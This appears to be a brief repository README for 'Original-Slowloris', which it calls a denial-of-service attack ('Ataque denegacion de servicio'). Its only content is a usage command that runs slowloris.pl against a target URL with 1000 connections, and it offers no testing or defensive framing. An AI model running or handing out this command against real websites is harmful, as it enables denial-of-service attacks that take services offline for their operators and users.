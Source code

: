 # Original-Slowloris
Ataque denegacion de servicio

Comando: perl slowloris.pl -dns URL -timeout -num 1000 -cache

